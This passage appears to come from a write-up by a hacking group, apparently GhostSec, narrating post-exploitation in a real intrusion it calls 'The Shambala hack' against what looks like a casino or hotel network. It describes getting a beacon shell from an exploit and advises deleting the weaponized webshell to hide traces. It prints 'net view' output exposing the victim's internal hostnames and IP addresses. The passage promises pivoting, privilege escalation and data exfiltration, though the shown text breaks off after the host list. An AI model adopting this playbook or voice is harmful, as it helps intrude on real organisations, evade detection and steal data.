 Now that we run the exploit and get our initial shell

![[MSF2Beacon.png]]

We may now move on to POST EXPLOITATION! when we say post exploitation we will cover all the topics from PIVOTING,GAINING PRIVILEGE, AND DATA EXFIL!

## Post Exploitation

A fellow GhostSec Member userware will continue from here and will tell you our process of post exploitation during The Shambala hack!!

### Enumeration and Discovery

After we got initial access we start with a basic internal recon running `net view` just by using APIs without relying on `net.exe`.
Also be sure to remove the webshell that was weaponized with beacon ahead of time. Just do it just in cause user!

```
beacon> net view
received output:
List of hosts:

 Server Name             IP Address                       Platform  Version  Type   Comment
 -----------             ----------                       --------  -------  ----   -------
 ADMIN-REST-01           172.16.2.155                     500       6.1             
 ADMIN-REST-02           172.16.2.121                     500       6.1             
 AQUILA                  172.16.0.20                      500       10.0     PDC    
 BUH1                    172.16.4.154                     500       10.0            
 BUH2                    172.16.4.180                     500       6.1             
 CCTV-3-1                172.16.2.182                     500       10.0            
 CCTV-UPGR               172.16.2.84                      500       10.0            
 CCTV-UPRG2              172.16.2.167                     500       10.0            
 EXEMS                   172.16.0.75                      500       10.0            
 HERCULES                172.16.0.70                      500       10.0            
 HOTELMAN                172.16.2.240                     500       10.0            
 INKASS1                 172.16.20.1                      500       6.1             
 INKASS2                 172.16.20.9                      500       10.0            
 INSTRUCTOR              172.16.3.0                       500       6.1             
 IT-BOOK                 172.16.1.222                     500       6.1             
 ITDEP                   172.16.1.55                      500       10.0            
 JOKERCLUB1              172.16.20.61                     500       6.1             
 JOKERCLUB2              172.16.20.62                     500       10.0            
 KASSA1                  172.16.20.2                      500       6.1             
 KASSA2                  172.16.20.3                      500       6.1             
 KASSA3                  172.16.20.4                      500       6.1             
 LOGIST                  172.16.12.129                    500       10.0            
 MANAGER                 172.16.13.142                    500       10.0            
 MARKETING-02            172.16.2.11                      500       10.0            
 PERSONAL-01             172.16.2.47                      500       10.0            
 PERSONAL-02             172.16.4.24                      500       10.0            
 PERSONAL-03             172.16.2.2                       500       6.1             
 PITBOSS1-1              172.16.20.40                     500       10.0            
 PITBOSS1-2              172.16.3.200                     500       10.0            
 PITBOSS2                172.16.3.165                     500       10.0            
 PITBOSSGOLD             172.16.4.4                       500       10.0            
 PITBOSSOFFICE           172.16.3.86                      500       6.1             
 PITBOSSVIP              172.16.20.125                    500       6.1             
 POKERCLUB-PC            172.16.2.181                     500       10.0            
 PRODMAN                 172.16.2.123                     500       6.1             
 RDPSRV                  172.16.0.77                      500       10.0            
 REC1                    172.16.20.21                     500       6.1             
 REC2                    172.16.20.22                     500       10.0            
```